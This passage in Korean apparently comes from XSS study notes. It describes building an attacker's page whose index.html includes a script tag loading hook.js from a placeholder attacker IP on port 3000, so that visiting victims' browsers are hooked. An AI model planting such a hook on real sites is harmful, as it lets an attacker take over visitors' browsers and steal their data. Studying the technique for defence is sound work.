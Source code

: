 ![Untitled](XSS%20(Cross-site%20Scripting)%20bfb6c6c6ce0a45b6957a8a1961ada7ce/Untitled%2054.png)

victim이 접속할 attacker 서버의 페이지를 구성한다.

초기 화면을 구성하는 `index.html` 파일에 script 태그를 삽입했다. victim이 이 페이지에 접속하면 삽입해 놓은 스크립트가 실행되어, victim을 후킹하는 방식이다.

![Untitled](XSS%20(Cross-site%20Scripting)%20bfb6c6c6ce0a45b6957a8a1961ada7ce/Untitled%2055.png)

`<script src=”http://<attacker’s ip>:3000/hook.js”></script>` 삽입

![Untitled](XSS%20(Cross-site%20Scripting)%20bfb6c6c6ce0a45b6957a8a1961ada7ce/Untitled%2056.png)

![Untitled](XSS%20(Cross-site%20Scripting)%20bfb6c6c6ce0a45b6957a8a1961ada7ce/Untitled%2057.png)
